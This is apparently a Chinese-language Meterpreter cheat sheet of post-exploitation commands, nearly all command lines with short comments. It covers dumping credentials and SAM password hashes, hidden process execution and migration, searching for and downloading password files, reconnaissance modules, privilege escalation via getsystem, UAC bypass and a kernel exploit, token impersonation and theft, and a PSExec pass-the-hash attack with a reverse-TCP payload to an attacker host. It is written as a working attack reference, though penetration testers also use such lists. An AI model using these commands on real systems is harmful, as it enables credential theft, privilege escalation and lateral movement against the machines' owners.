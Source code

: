 # meterpreter

列出所有凭据
```
creds_all
```
## 系统命令

1. execute执行文件

```
execute #在目标机中执行文件
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```

2. migrate进程迁移

```
getpid    # 获取当前进程的pid
ps   # 查看当前活跃进程
migrate <pid值>    #将Meterpreter会话移植到指定pid值进程中
kill <pid值>   #杀死进程
```


## 文件系统命令

1. 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
ls
cd
search -f *pass*       # 搜索文件  -h查看帮助
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
rm C:\\lltest\\hack.txt
mkdir lltest2  #只能在当前目录下创建文件夹
rmdir lltest2  #只能删除当前目录下文件夹
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
lcd /tmp   #操作攻击者主机 切换目录
```

## 信息收集

```
/usr/share/metasploit-framework/modules/post/windows/gather
/usr/share/metasploit-framework/modules/post/linux/gather
```


```
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm #是否虚拟机
run post/windows/gather/forensics/enum_drives #查看分区
run post/windows/gather/enum_applications #获取安装软件信息
run post/windows/gather/dumplinks   #获取最近的文件操作
run post/windows/gather/enum_ie  #获取IE缓存
run post/windows/gather/enum_chrome   #获取Chrome缓存
run post/windows/gather/enum_patches  #补丁信息
run post/windows/gather/enum_domain  #查找域控
```


## 提权

1. getsystem提权
```
getsystem
```


2. bypassuac

```
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
```

3. 内核漏洞提权
可先利用enum_patches模块 收集补丁信息，然后查找可用的exploits进行提权
```
meterpreter > run post/windows/gather/enum_patches  #查看补丁信息
msf > use exploit/windows/local/ms13_053_schlamperei
msf > set SESSION 2
msf > exploit
```


4. 自动枚举

```
multi/recon/local_exploit_suggester
```


## 令牌操纵
1.  incognito模块

```
use incognito      #help incognito  查看帮助
list_tokens -u    #查看可用的token
impersonate_token 'NT AUTHORITY\SYSTEM'  #假冒SYSTEM token

# 或者impersonate_token NT\ AUTHORITY\\SYSTEM #不加单引号 需使用\\
execute -f cmd.exe -i –t    # -t 使用假冒的token 执行

#或者直接shell
rev2self   #返回原始token
```

2. steal_token窃取令牌

```
steal_token <pid值>   #从指定进程中窃取token   先ps
drop_token  #删除窃取的token
```

## 哈希利用

1. 获取哈希

```
run post/windows/gather/smart_hashdump  #从SAM导出密码哈希
#需要SYSTEM权限
```

2. PSExec哈希传递

```
msf > use exploit/windows/smb/psexec
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.159.134
msf > set LPORT 443
msf > set RHOST 192.168.159.144
msf >set SMBUser Administrator
msf >set SMBPass aad3b4*****04ee:5b5f00*****c424c
msf >set SMBDomain  WORKGROUP   #域用户需要设置SMBDomain
msf >exploit
```

